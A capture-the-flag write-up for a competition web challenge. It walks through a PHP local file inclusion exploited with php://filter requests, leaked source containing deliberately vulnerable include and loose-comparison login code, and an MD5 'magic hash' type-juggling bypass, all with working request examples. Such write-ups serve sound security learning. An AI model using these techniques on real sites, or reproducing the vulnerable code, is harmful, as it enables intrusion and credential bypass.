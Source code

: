 ```yaml
---
toc: true
title: MACS Web
description: MACS Web
pubDate: 2023-11-25
author: Duc Anh Nguyen
---
```


## 1. [Pea Haych Pee](/image/macs_web/1700915309736.png)

The web reads the `page` parameter, fetches the file whose filename is the same as `page` value, and includes it in the response. By sending a random page name that does not exist (locally) in their server, it can be deduced that they are using php include function to add the file content to the response.

```http
GET /mainsite/?page=test.php HTTP/1.1
Host: chal2.macs.codes:4023
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

```http
HTTP/1.1 200 OK
Date: Sun, 26 Nov 2023 03:45:52 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.2.34

<br />
<b>Warning</b>:  include(test.php): failed to open stream: No such file or directory in <b>/var/www/html/mainsite/index.php</b> on line <b>14</b><br />
<br />
<b>Warning</b>:  include(): Failed opening 'test.php' for inclusion (include_path='.:/usr/local/lib/php') in <b>/var/www/html/mainsite/index.php
```

Use `include` to exploit the LFI vulnerability. When you use php:// with include or require, you're essentially telling PHP to treat the specified stream as if it were a file, allowing you to read from it or write to it as needed.

Read the code in index.php by sending this request:

```
GET /mainsite/?page=php://filter/convert.base64-encode/resource=index.php HTTP/1.1
Host: chal2.macs.codes:4023
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://chal2.macs.codes:4023/mainsite/index.php?page=contact
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

```

Source code is leaked:
```php
<?php
	include("header.php");
	$page = $_GET['page'];
	if(isset($page) && strlen("$page") !== 0) {
		while(substr_count($page, '../', 0)) {
 			$page = str_replace('../', '', $page);
		};
		while(substr_count($page, 'flag', 0)) { //you can't just include the flag you cheeky buggers, try harder!!!
			$page = str_replace('flag', '', $page);
		}
		if($page[0] === '/') {
			$page = substr($page, 1);
		}
		include("$page");
	}
	include("footer.php");
?>
```
However, there is a filter to forbid extracting the flag so I check out the header.php file. Below is a snippet.

```php
		    <?php
                    // echo '<li class="nav-item"><a href="secret_gymso_admin/index.php">Admin - Not Complete</a></li>';
    ?>
```

Read `/var/www/html/secret_gymso_admin/index.php` with stream wrappers:

```html
<form class="login100-form validate-form" method="post" action="../mainsite/login_toBeFinished.php">
	<span class="login100-form-title p-b-55">
		Login
    </span>
```

Read `/var/www/html/mainsite/login_toBeFinished.php` with stream wrappers: 

```php
<?php
	session_start();
	$username = $_POST["username"];
	$password = $_POST["password"];
	$myPDO = new PDO('sqlite:database_toBeFinished.db');
	$stmt = $myPDO->prepare("SELECT * FROM users WHERE username = ?");
	$stmt->execute(array("$username"));
	if($row = $stmt->fetch()) {
		$databasePassword = $row[1];
		if($databasePassword == md5("$password")) {
			$_SESSION['password'] = $password;
			//print_r(file_get_contents('../v/flag.php4'));
			header('Location: /secret_gymso_admin/flag.php');
		}
		else {
			header('Location: /secret_gymso_admin/index.php');
		}
	}
	else {
		header('Location: /secret_gymso_admin/index.php');
	}
?>

```

There is a database in the folder, try reading `/var/www/html/mainsite/database_toBeFinished.db` with stream wrappers, and the username and password (in MD5) are leaked:

```sqlite
joseph 0e087333482131113740957780965295
```

The code is vulnerable in its comparison between $databasePassword and md5("$password"). It uses loose type comparison and therefore it's vulnerable to [PHP Type Juggling](https://medium.com/@codingkarma/not-so-obvious-php-vulnerabilities-388a3b7bf2dc). The output of the `md5` function is a string and `$databasePassword`` value is going to be "0e087333482131113740957780965295" for user Joseph:

```php
md5(string $string, bool $binary = false): string
```

The loose type comparison is pretty funky and you can read more about it here: [PHP Loose Type](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf). Basically:

`0e08733 == 0e12345 is True`
So we have to find a password when hashed gives out a value that starts with `0e`. Consult [Magic Hash](https://github.com/spaze/hashes/blob/master/md5.md) and we know we can use a value of 240610708 for the password. Login with username joseph/ password 240610708 and we can obtain the flag. 